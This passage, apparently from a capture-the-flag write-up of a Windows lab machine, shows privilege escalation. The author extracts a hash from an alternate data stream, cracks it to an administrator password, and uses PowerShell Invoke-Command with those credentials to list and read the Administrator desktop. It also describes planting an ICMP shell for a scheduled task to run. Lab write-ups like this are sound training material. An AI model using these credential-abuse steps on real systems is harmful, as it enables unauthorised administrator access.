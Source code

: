 {% highlight powershell %}
cat \temp\backup.zip -stream pass
28a5d1e0c15af9f8fce7db65d75bbf17
{% endhighlight %}

## Own System

Using [Hashkiller](https://hashkiller.co.uk/md5-decrypter.aspx), I was able to crack the hash:

<b>28a5d1e0c15af9f8fce7db65d75bbf17 NTLM : 1234test</b>

This was most certainly the password for the administrator user. I tried the following command to get the Administrator's Desktop directory contents:

{% highlight powershell %}
$username = 'administrator'; $password = '1234test'; $pass = ConvertTo-SecureString -AsPlainText $Password -Force; $cred = New-Object System.Management.Automation.PSCredential $username, $pass; Invoke-Command -ComputerName localhost -credential $cred -ScriptBlock { Get-ChildItem \users\administrator\desktop }
{% endhighlight %}

I used the Invoke-Command and built the PSCredential object using the password. However, as I was running as the low privileged IIS user, this command was not returning nothing. I never got certain of the exact reason, but I presumed the IIS user was not allowed to run Invoke-Command passing other user's credentials. So, I had to change my previous Python script to copy the ICMP shell to \sysadmscripts\c.ps1, so that I could get a shell under decoder user. The change was easy, as instead of copying the Invoke-PowerShellIcmp.ps1 to \temp\s.ps1, I copied to \sysadmscripts\c.ps1. I also commented the execution of the shell as I just wanted it to be triggered by the decoder's scheduled task.

After 5 minutes, I got a shell back under the user decoder. I then proceeded to run the Invoke-command again and this time I got the contents of the Administrator's desktop directory:

{% highlight powershell %}
$username = 'administrator'; $password = '1234test'; $pass = ConvertTo-SecureString -AsPlainText $Password -Force; $cred = New-Object System.Management.Automation.PSCredential $username, $pass; Invoke-Command -ComputerName localhost -credential $cred -ScriptBlock { Get-ChildItem \users\administrator\desktop }

Directory: C:\users\administrator\desktop


Mode                LastWriteTime     Length Name              PSComputerName  
----                -------------     ------ ----              --------------  
-a---         9/26/2017   6:18 AM     386479 root.exe          localhost       
-a---         8/24/2017  12:32 AM         76 root.txt          localhost       
{% endhighlight %}

At that time I thought the challenge was done as the next step would just to get the root.txt content. However, when running the command, I learned the root.txt was not containing what I wanted:

{% highlight powershell %}
$username = 'administrator'; $password = '1234test'; $pass = ConvertTo-SecureString -AsPlainText $Password -Force; $cred = New-Object System.Management.Automation.PSCredential $username, $pass; Invoke-Command -ComputerName localhost -credential $cred -ScriptBlock { cat\users\administrator\desktop\root.txt }

In order to get the flag you have to launch root.exe located in this folder!
{% endhighlight %}
